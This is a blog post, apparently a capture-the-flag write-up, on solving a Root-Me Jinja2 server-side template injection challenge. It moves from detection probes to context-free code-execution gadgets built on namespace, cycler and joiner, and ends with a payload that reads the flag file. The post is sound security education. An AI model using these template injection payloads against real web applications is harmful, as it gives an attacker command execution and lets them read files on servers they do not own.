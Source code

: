 +++ 
title = "From Detection to Flag: Python Jinja2 SSTI on Root-Me"
description = "A step-by-step walkthrough of solving a Python SSTI challenge on Root-Me, from initial detection to crafting a context-free Jinja2 payload for code execution."
date = "2025-09-11"
draft = false
tags = ['ssti', 'ctf', 'python', 'jinja2', 'root-me', 'walkthrough']
+++

I recently tackled a fun Server-side Template Injection (SSTI) challenge on Root-Me and wanted to document my process. This post follows my journey from initial detection to crafting a reliable, context-free payload to gain code execution.

## The Challenge: Python SSTI Introduction

The goal was to solve the "Python - Server-side Template Injection Introduction" challenge on [Root-me.org](https://www.root-me.org/en/Challenges/Web-Server/Python-Server-side-Template-Injection-Introduction?lang=en).

### << SETUP >>

I started by loading the challenge environment and intercepting the requests using Caido. The application allows you to preview content submitted through a form.

### << DETECT >>

The core of the application is a POST request to `/preview` with `title` and `content` parameters.

```http
POST /preview HTTP/1.1
Host: challenge01.root-me.org:59074
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

title=hi&content=hi&button=yes
```

To test for SSTI, I sent a simple mathematical expression, `{{7*7}}`, in both the `title` and `content` fields. The server's response was revealing:

```json
{
    "content": "49",
    "title": "{{7*7}}"
}
```

The `content` field was processed, while the `title` field was not. This confirmed an SSTI vulnerability in the `content` parameter. To be certain about the template engine, I tried two different payloads:

1.  `{{3 * 3}}` resulted in `9`.
2.  `{{'3' * 3}}` resulted in `333`.

This behavior is characteristic of Jinja2, confirming my suspicion.

### << EXPLORE >>

With the vulnerability confirmed, the next step was to find a way to execute shell commands. My goal was to access the `os` module in Python.

#### The Problem with Context-Dependent Payloads

In previous challenges, like one from picoCTF, I had used "egg hunter" payloads that depend on the application's context. For example:

```python
{{ ''.__class__.__base__.__subclasses__()[356]('ls -la', shell=True, stdout=-1).communicate()[0].decode() }}
```

The problem with this method is that the index for `popen` (`[356]`) is not consistent across different environments. It's a brittle approach. I wanted to find a more reliable, context-independent payload.

#### The Quest for a Context-Free Payload

I drew inspiration from the GreHack 2021 talk by @podalirius_, "[Optimizing Server Side Template Injections payloads for jinja2](https://www.youtube.com/watch?v=ahBxZkOTdg0)", which discusses creating context-free payloads.

The ideal payload should be:
1.  **Context-free:** It shouldn't rely on any data passed into the `.render()` method.
2.  **Short:** Shorter is always better.

The key is the `self` object, which is a reference to the template itself and is accessible even with an empty `.render()` call.

```python
>>> jinja2.Template("""I am {{ self }}""").render()
'I am <TemplateReference None>'
```

From this `self` object, we should be able to find a path to the `os` module.

#### Finding the Path with BFS

Python's objects and attributes can be thought of as a graph. To find the shortest path from our starting object (`jinja2`) to our target (`os`), we can use a Breadth-First Search (BFS). This helps avoid long exploration traps and cycles.

During this exploration, I got a bit confused about the distinction between objects, attributes, and modules in Python. They all felt very similar. I got a great explanation:

> **You're right to feel they're similar—in Python, almost everything, including modules and functions, is fundamentally an object. The difference lies in their role and relationship to each other.**
> 
> **Object (obj):** The most basic building block. An instance of a class (e.g., an integer, a list, a function, a module).
> 
> **Attribute (attr):** A name that belongs to an object, accessed with the dot notation (`parent_object.attribute`). It can be a variable or a method.
> 
> **Module:** A specific type of object whose main job is to organize Python code, acting as a namespace for its attributes.

With that clarified, I wrote a small BFS script (`audit.py`) to search for paths from the `jinja2` object to the `os` module. It found several promising paths:

```bash
$ ./audit.py jinja2
Searching for 'os' from 'jinja2' (max depth: 5)...
jinja2.bccache.fnmatch.os
jinja2.bccache.os
jinja2.bccache.tempfile._os
jinja2.environment.os
jinja2.loaders.os
jinja2.utils.os
```

This confirmed that a path exists. Now, how to get there from `self`?

#### From `self` to `os`

First, I inspected the `self` object using `dir()`:

```python
>>> jinja2.Template("""{{ f(self) }}""").render(f=dir)
"['__class__', '__delattr__', ..., '_TemplateReference__context']"
```

Most attributes were internal dunder methods, but `_TemplateReference__context` looked interesting.

```python
>>> jinja2.Template("""{{ self._TemplateReference__context }}""").render()
"<Context {'range': ..., 'cycler': <class 'jinja2.utils.Cycler'>, 'joiner': <class 'jinja2.utils.Joiner'>, 'namespace': <class 'jinja2.utils.Namespace'>} of None>"
```

This context object gives us access to several Jinja2 utility classes like `cycler`, `joiner`, and `namespace`. My BFS search showed that `jinja2.utils.os` was a valid path. Since `namespace` is in `jinja2.utils`, I could traverse from there to the `os` module using Python's object introspection capabilities (`__init__.__globals__`).

This gives us a reliable path to `os`:

```python
{{ self._TemplateReference__context.namespace.__init__.__globals__.os }}
```

Even better, since `namespace`, `cycler`, and `joiner` are available in the global context of the template, we can access them directly without referencing `self`. This leads to a much cleaner and shorter payload.

#### The Final Gadgets

This discovery yielded three reliable, context-free gadgets for Jinja2 SSTI:

```python
{{ namespace.__init__.__globals__.os.popen("id").read() }}
{{ cycler.__init__.__globals__.os.popen("id").read() }}
{{ joiner.__init__.__globals__.os.popen("id").read() }}
```

### << EXPLOIT >>

Now it was time to use these gadgets on the challenge server. I sent the payload in the `content` parameter:

```
content={{ namespace.__init__.__globals__.os.popen("ls -la").read() }}
```

The server responded with a directory listing, and I spotted a `.passwd` file.

#### A Failed Experiment: `popen` vs. `Popen`

To get a nicely formatted output, I first tried to use the `communicate()` method, which I had used in the past:

```python
{{ namespace.__init__.__globals__.os.popen('id', shell=True, stdout=-1).communicate()[0].decode() }}
```

This resulted in an error: `TypeError: popen() got an unexpected keyword argument 'shell'`.

This was a key learning moment. I realized I was confusing `os.popen()` with the more powerful `subprocess.Popen`. The `os.popen` function is simpler and doesn't accept those arguments. The payload I used in the picoCTF challenge was accessing `subprocess.Popen`, not `os.popen`.

#### Getting the Flag

To solve the formatting issue and read the file, I switched to `readlines()`, which returns the output as a list of strings, preserving newlines.

**Final Payload:**

```
content={{ namespace.__init__.__globals__.os.popen('cat .passwd').readlines() }}
```

**Response:**

```json
{
    "content": "['Python_SST1_1s_co0l_4nd_mY_p4yl04ds_4r3_1ns4n3!!!\n']",
    "title": "hi"
}
```

Success! I found the flag.

## Final Thoughts

This challenge was a great exercise in moving beyond simple, context-dependent SSTI payloads. The journey was just as important as the result. By hitting a wall with `os.popen`, taking the time to understand the object graph with BFS, and clarifying fundamental Python concepts, I was able to build a short, reliable, and context-free gadget for code execution. It highlights the importance of deep-diving into the framework you're targeting and not being afraid to go back to the basics.
